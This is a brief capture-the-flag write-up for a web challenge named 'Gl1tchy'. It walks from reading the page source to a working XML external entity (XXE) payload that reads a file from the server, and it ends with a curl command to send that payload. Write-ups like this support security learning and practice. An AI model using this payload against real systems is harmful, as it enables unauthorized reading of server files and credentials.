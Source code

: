 # Gl1tchy

> web

Author: [whitex](https://github.com/najeh-halawani)

Glitchs are very annoying, we hate them. Maybe the user stays with you 😉

## Writeup

### Recon

Apparently the website has nothing, but when reviewing the source code we see the following comment:

![Website Homepage]()
![Source Code]()


# Read Source code... check XML 

# Try to understand the structure of the xml 

```
<creds>
  <user>whitex</user>
</creds>
```

#no need for <pass> </pass>
#final payload

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///tmp/passwd" >]>
<creds>
 <user>&xxe;</user>
 <pass>mypass</pass>
</creds>
```

# trigger the payload using curl

```curl -d @xxe http://ip```
